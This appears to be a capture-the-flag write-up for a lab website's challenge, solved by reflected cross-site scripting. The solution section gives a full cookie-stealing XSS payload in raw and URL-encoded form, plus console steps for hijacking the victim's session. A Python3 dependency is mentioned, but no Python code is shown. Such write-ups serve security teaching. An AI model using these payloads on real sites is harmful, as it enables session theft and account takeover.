# Introduction
This challenge was designed to put into practice in a '*real*' world situation some *client-side web* attacks (20<sup>th</sup> December 2018).

# Challenge Description
This challenge consists to find sensitive information, a *FLAG*, saved in the Lavish's personal account of the [**obxssession**](https://obxssession.seclab.dais.unive.it/) website/platform. 

The challenge takes advantages of the XSS (Cross-Site Scripting) vulnerability. Once we have registered and logged into the website, we will find a messaging system and that’s what we will use to attack Lavish by sending him an ad-hoc URL to get his cookies and then be able to retrieve the *flag*.

The malicious link will use as a baseline an existing link (available on the `<REDACTED> Theorie` section/page) that uses a `GET` request, in which we will modify one of the request fields with a `'script'` tag which, using the jQuery library, it will sends in our personal inbox a message containing the Lavish's cookies (using the website messaging system). 

Once we have done all of this it will be enough to set the Lavish's cookies from the browser and we will be authenticated (logged in) into the system as Lavish.

## Original Description
>[**Obxssession**](https://obxssession.seclab.dais.unive.it/) is a prominent website to discuss conspiracy theories. Everyone knows about chemtrails, the New World Order, Illuminati, Area 51, 9/11 facts, HAARP experiments and how governments control us using vaccination and radio frequency identification chips implanted in our bodies. But this is nothing, Lavish discovered a disconcerting truth that could have a colossal impact on people all over the World. He spent sleepless nights thinking about this secret, feeling a never experienced pressure against his chest without knowing what to do... but in the end he decided to lock it away, since revealing the truth may drastically change the World as we know it today.
>
>We understand the struggling he is suffering, but at the same time we strongly believe that people have the right to know, no matter what the consequences will be. We ask you, elite hackers, to login into Lavish's private area and report us anything you may find there. The World destiny is in your hands.
>
>Hints:
>* Lavish frequently visits links sent to his inbox (just 1 link per message is fine)
>* Since he is a bit paranoid about visiting random links, he is behind a firewall that prevents him to open links outside the obxssession website: https://obxssession.seclab.dais.unive.it/
>* The message system does not render html (even links), but lavish loves to visit URLs anyway

# Dependencies
The developed solution is based on *Python3*, so you'll need to have it installed in order to run it. To check if you have installed *Python3* in your computer, open a terminal window and type `python3 --version` or `which python3`. If the system has rised an error it means that you don't have installed it.

# Solution
To perform the previously described attack you just need to:

1. Create an account in the [**obxssession**](https://obxssession.seclab.dais.unive.it/) platform;
2. Login into the website;
3. Create and send a new message composed as follow:
    * **To**: Lavish
    * **Subject**: any string with at least 5 characters
    * **Message**: Attach the following link encoded (the `receiver` field is set to `'8'` because it was my account ID number, so you just need to change it with you current ID): `https://obxssession.seclab.dais.unive.it/error?m=theory%20not%20found&p=<script>$.post( "https://obxssession.seclab.dais.unive.it/send", { receiver : "8", subject : "These should be the Lavish's cookies", contents : document.cookie } );</script>`

   **Encoded version**:  `https://obxssession.seclab.dais.unive.it/error?m=theory%20not%20found&p=%3Cscript%3E%24.post(%22https%3A%2F%2Fobxssession.seclab.dais.unive.it%2Fsend%22%2C%20%7B%20receiver%20%3A%20%228%22%2C%20subject%20%3A%20%22These%20should%20be%20the%20Lavish's%20cookies%22%2C%20contents%20%3A%20document.cookie%20%7D%20)%3B%3C%2Fscript%3E`

4. Visit your `'Inbox'` page;
5. Copy the Lavish’s message (his cookies);
6. Open the developer console of the browser (`Inspect element` —> `Console`);
7. Change your cookies with the Lavish’s one. To do that you just need to type:
    * `document.cookie="session= … <Lavish’s cookies> …"`
    * Now you’re authenticated as `Lavish`, so to get the *flag* you need to go in his `profile` page

# Possible Fixes
A possible solution is to not allowing sending links/URLs through the messaging system or at least to check them with a list of well-known pages (white-list) in a conjunction with some input validation (like `htmlspecialchars`).